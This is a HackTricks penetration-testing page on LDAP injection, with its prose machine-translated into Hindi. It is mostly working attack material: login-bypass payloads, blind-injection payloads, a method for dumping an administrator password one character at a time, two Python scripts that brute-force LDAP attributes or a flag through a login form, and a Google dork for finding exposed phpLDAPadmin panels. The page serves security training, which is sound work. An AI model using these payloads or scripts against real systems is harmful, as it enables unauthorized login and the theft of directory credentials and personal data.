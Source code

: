 # LDAP Injection

## LDAP Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## LDAP Injection

### **LDAP**

**यदि आप जानना चाहते हैं कि LDAP क्या है, तो निम्नलिखित पृष्ठ पर जाएं:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection** एक हमला है जो वेब अनुप्रयोगों को लक्षित करता है जो उपयोगकर्ता इनपुट से LDAP कथन बनाते हैं। यह तब होता है जब अनुप्रयोग **इनपुट को सही ढंग से साफ़ करने में विफल रहता है**, जिससे हमलावरों को **स्थानीय प्रॉक्सी के माध्यम से LDAP कथनों में हेरफेर करने** की अनुमति मिलती है, जो संभावित रूप से अनधिकृत पहुंच या डेटा हेरफेर का कारण बन सकती है।

{% file src="../.gitbook/assets/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filter** = ( filtercomp )\
**Filtercomp** = and / or / not / item\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= simple / present / substring\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
**(&)** = Absolute TRUE\
**(|)** = Absolute FALSE

उदाहरण के लिए:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

आप डेटाबेस तक पहुंच सकते हैं, और इसमें विभिन्न प्रकार की जानकारी हो सकती है।

**OpenLDAP**: यदि 2 फ़िल्टर आते हैं, तो केवल पहले को निष्पादित करता है।\
**ADAM या Microsoft LDS**: 2 फ़िल्टर के साथ वे एक त्रुटि फेंकते हैं।\
**SunOne Directory Server 5.0**: दोनों फ़िल्टर निष्पादित करते हैं।

**यह बहुत महत्वपूर्ण है कि फ़िल्टर को सही सिंटैक्स के साथ भेजा जाए, अन्यथा एक त्रुटि फेंकी जाएगी। केवल 1 फ़िल्टर भेजना बेहतर है।**

फ़िल्टर को इस प्रकार शुरू करना चाहिए: `&` या `|`\
उदाहरण: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

फिर: `(&(objectClass=`**`*)(ObjectClass=*))`** पहला फ़िल्टर होगा (जो निष्पादित होता है)।

### Login Bypass

LDAP पासवर्ड को स्टोर करने के लिए कई प्रारूपों का समर्थन करता है: स्पष्ट, md5, smd5, sh1, sha, crypt। इसलिए, यह हो सकता है कि आप जो भी पासवर्ड के अंदर डालें, वह हैश किया गया हो।
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### सूचियाँ

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [LDAP विशेषताएँ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [LDAP PosixAccount विशेषताएँ](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### ब्लाइंड LDAP इंजेक्शन

आप किसी भी डेटा के लौटने की जांच करने और संभावित ब्लाइंड LDAP इंजेक्शन की पुष्टि करने के लिए झूठे या सही उत्तरों को मजबूर कर सकते हैं:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data

आप ascii अक्षरों, अंकों और प्रतीकों पर पुनरावृत्ति कर सकते हैं:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **मान्य LDAP फ़ील्ड खोजें**

LDAP ऑब्जेक्ट्स **डिफ़ॉल्ट रूप से कई विशेषताएँ** रखते हैं जो **जानकारी सहेजने** के लिए उपयोग की जा सकती हैं। आप **उन सभी को ब्रूट-फोर्स करने की कोशिश कर सकते हैं ताकि उस जानकारी को निकाला जा सके।** आप [**डिफ़ॉल्ट LDAP विशेषताओं की सूची यहाँ**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt) पा सकते हैं।
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **विशेष ब्लाइंड LDAP इंजेक्शन (बिना "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### गूगल डॉर्क्स
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### More Payloads

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अजेय को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमसे जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}
